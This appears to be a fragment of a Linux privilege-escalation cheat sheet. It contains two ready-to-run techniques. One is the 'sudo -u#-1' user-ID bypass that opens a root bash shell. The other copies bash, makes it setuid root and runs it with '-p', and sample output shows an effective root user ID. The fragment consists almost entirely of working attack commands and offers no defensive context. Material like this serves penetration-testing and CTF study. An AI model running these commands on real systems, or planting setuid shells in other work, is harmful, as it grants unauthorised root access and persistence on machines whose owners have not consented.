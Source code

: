 #### SUDO
* BASH
  ```
  sudo -u#-1 /bin/bash -i
  ```

#### Making Bash Executable for Root Priv Esc
```
cp /usr/bin/bash /home/james/

sudo chown root:root bash

sudo chmod +s bash

./bash -p

uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),1000(user)
```
